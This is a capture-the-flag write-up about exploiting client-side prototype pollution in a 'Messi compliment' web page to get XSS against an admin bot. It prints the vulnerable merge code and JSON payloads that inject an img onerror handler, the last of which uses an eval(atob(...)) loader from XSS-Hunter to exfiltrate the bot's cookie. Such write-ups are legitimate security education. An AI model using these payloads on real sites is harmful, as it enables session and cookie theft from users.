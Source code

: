# Kulkan

## Description
```
A Messi compliment engine for Messi fans is here at penetration-testing.com

Kulkan Security delivers penetration testing and vulnerability assessment services to International markets. Our team of security experts will plan and execute controlled attacks and partner up with your company in an effort to identify, mitigate and remediate security vulnerabilities.
```

## Writeup

Taking a look at the website.
![grafik](https://github.com/Aryt3/writeups/assets/110562298/61334258-1a1c-4ed0-8543-42c9997f874e)

Starting off we have a lot of input but up front I was able to terminate a lot of possibilities on what the vulnerability might be. <br/>
This was a challenge provided by a sponsor company and therefore everyone was attacking the same website. <br/>
Knowing this I can exclude almost every server-side vulnerability. <br/>

![grafik](https://github.com/Aryt3/writeups/assets/110562298/8edef8ff-d58d-4604-8b07-5befe7c58241)
Clicking on the Admin Bot I instantly realize that this should be some kind of XSS exploit because an "admin bot" will visit the URL we provide. <br/>
Taking a look at the logic from the homepage: <br/>
```js
const params = new URLSearchParams(window.location.search);
document.getElementById("input_json").value = params.get("input_json") || "";

let randomObject = {};

function mergeObjects(target, source) {
  for (let key in source) {
    if (typeof source[key] === "object" && source[key] !== null) {
      if (!target[key]) {
        target[key] = {};
      }
      mergeObjects(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
}

function applyUpdate() {
  const configStr = document.getElementById("input_json").value;
  let config = {};

  try {
    config = JSON.parse(configStr);
  } catch (e) {
    console.log("Invalid JSON, you can do better for Messi.");
    return;
  }

  // Hey, you're doing a great job if you're here reviewing code. You've got this!
  let defaultConfig = { color: "blue", fontSize: "16px" };
  mergeObjects(defaultConfig, config);

  const complimentDiv = document.getElementById("compliment");

  if (defaultConfig.compliment) {
    complimentDiv.innerText = defaultConfig.compliment;
  }
  if (defaultConfig.color) {
    complimentDiv.style.color = defaultConfig.color;
  }
  if (defaultConfig.fontSize) {
    complimentDiv.style.fontSize = defaultConfig.fontSize;
  }
  if (randomObject.win) {
    complimentDiv.innerHTML = randomObject.win;
  }
}

applyUpdate();
```

Here we see some interesting things like the possible input parameter. <br/>
Executing the function on the homepage normally we receive this output: <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/45fc44d6-b9be-4505-9384-4897197c56d2)

Inspecting the code above I was able to determine that we can just input the same json payload into the URL. <br/>
```
https://www.penetration-testing.com/?input_json={   "compliment": "I'm in pain!",   "color": "purple",   "fontSize": "49px" }
```
Visiting the URL above we also receive the output below 
![grafik](https://github.com/Aryt3/writeups/assets/110562298/29cabb3b-0871-4081-a89a-374f806e5b73)

Remembering that the admin bot can only visit the its' own URL we should be able to forge some kind of URL parameter which reads sensitive data like the cookie and pass it along to my server. <br/>
Before that though we need to find a way to execute XSS. <br/>
I was able to come up wit ha vulnerability after reloading the homepage. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/1d19f43c-dc5a-4a52-ac76-d3b176312c5f)

Seeing the message below I was able to identify something strange. <br/>
`Prototype` and `Pollutes` are kind of weird words to use in this context. <br/>
After make a quick browser search I found an interesting article about `Prototype Pollution`. <br/>
This seems to be a server and client side vulnerability therefore useable for us. (https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)<br/>

After some trying around and more inspection of the javascript code I came up with the following payload which uses prototype pollution to execute malicious javascript code via the json parameter provided. <br/>
```json
{   "compliment": "no comment!",
    "__proto__":
    {     "win": "<img src=x onerror=\"javascript:alert('Get some of this payload!')\">"   }
}
```

Accessing the URL with the parameter above: <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/dbc26ccd-3f9a-4b09-a856-d175b6467db4)

The easiest way now is to just use `XSS-Hunter` a free online tool for XSS based attacks because it doesn't only check for cookies it basically checks every XSS exploit possible. (https://xsshunter.trufflesecurity.com/app/)<br/>
```json
{   "compliment": "no comment!",
    "__proto__":
    {     "win": "<img src=x id=[REDACTED] onerror=eval(atob(this.id))>"   }
}
```

Inputing the URL with the parameter above we execute a working XSS attack. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/098e6152-08cb-4334-8877-830daca12681)

Looking at `XSS-Hunter Payload Fire` we see the executed attack and the response of the server with the flag being stored in the `document.cookie`. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/10aac83a-db01-4bc0-b853-57547aeaec83)

Overall a nice challenge with some interesting vulnerability. 


